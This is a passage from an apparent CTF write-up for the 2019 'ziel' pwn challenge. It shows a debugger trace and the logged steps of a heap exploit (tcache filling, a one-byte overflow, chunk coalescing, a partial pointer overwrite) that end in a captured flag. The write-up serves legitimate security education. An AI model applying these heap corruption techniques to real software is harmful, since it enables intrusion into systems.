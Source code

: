 ```
[#0] 0x15555531cc14->call 0x15555531ca60
[#1] 0x7fffffffecf0->add ch, ch
--------------------------------------------------

Breakpoint 4, 0x000015555531cc14 in ?? ()

```


After this, it should load the flag into our map. But, if we reload the map using `next` function, we can't see the flag. This is because we store our players in the beginning of our map. Simply adding an offset (for example 0x30) for the XY coordinates solved it. Output of exploit script:
```
┌─[tempest@tempestuous]─[~/CTF/2019/CJ/final/pwn/ziel]
└──╼ $ python exploit.py go
[*] '/home/tempest/CTF/2019/CJ/final/pwn/ziel/ziel'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to localhost on port 10004: Done
[*] allocating 0xa0 and 0x90 chunks
[*] filling tcache for 0xa0 and 0x90 chunks
[*] freeing payload chunk
[*] adjusting fake size
[*] triggering one byte overflow
[*] freeing coalesce target
[*] coalescing chunk
[*] fill 0x50 tcache
[*] partial overwrite fd
[*] overwriting filename
[*] spawning flag
[+] Flag: CJ{7866a5583234467317fcfd9f85b427c1}
[*] Closed connection to localhost port 10004
```